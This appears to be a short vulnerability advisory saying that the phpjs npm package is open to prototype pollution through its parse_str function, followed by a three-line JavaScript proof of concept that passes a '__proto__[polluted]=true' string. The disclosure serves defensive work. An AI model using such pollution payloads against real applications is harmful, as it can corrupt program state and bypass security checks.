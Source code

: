 # Description
```phpjs``` is a community built PHP binding in JavaScript.
This package is vulnerable to ```Prototype Pollution``` via ```parse_str```. 

# Proof Of Concept
```
const phpjs = require('phpjs');
phpjs.parse_str("__proto__[polluted]=true",{}); 
console.log(polluted);
```
